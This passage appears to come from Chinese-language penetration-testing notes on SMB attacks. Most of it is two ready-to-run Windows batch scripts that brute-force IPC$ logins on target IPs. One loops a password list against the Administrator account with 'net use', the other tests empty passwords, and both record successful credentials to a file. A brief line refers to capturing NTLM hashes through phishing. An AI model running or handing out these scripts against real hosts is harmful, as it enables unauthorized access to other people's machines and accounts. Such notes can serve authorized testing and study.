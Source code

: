 - IPC 爆破

    ```
    ip.txt 放入要爆破的 IP
    pass.txt 放入爆破的密码
    默认爆破用户：Administrator
    爆破成功的结果，会在 bat 运行的当前目录生成 out.txt
    爆破进度的查询：type log.txt，完成后当前目录生成 end.txt
    ```

    非空连接爆破.bat
    ```bat
    @echo off
    cls
    echo Useage: %0 ip.txt pass.txt
    for /f %%t in (%1) do (
    FOR /F "eol=; tokens=1,2,3* delims=, " %%i in (%2) do (
    echo net use \\%%t\ipc$ "%%i" /user:"localhost\Administrator" >> log.txt
    net use \\%%t\ipc$ "%%i" /user:"localhost\Administrator"  >NUL 2>NUL
    IF NOT errorlevel 1 (
    echo %%i  t:%%t>> out.txt
    net use \\%%t\ipc$ /del
    )
    net use * /del /y >NUL 2>NUL
    )
    )
    echo end >> end.txt
    ```

    空连接爆破.bat
    ```bat
    @echo off
    cls
    echo Useage: %0 ip.txt
    for /f %%t in (%1) do (
    echo net use \\%%t\ipc$ "" /user:"localhost\Administrator" >> log.txt
    net use \\%%t\ipc$ "" /user:"localhost\Administrator"  >NUL 2>NUL
    IF NOT errorlevel 1 (
    echo success:%%t>> out.txt
    net use \\%%t\ipc$ /del
    )
    net use * /del /y >NUL 2>NUL
    )
    echo end >> end.txt
    ```

**利用 NTLM 值破解 SMB**

主要依靠钓鱼,不是很适合在实战中使用,内容见 https://www.hackingarticles.in/4-ways-capture-ntlm-hashes-network/

---

## PPTP
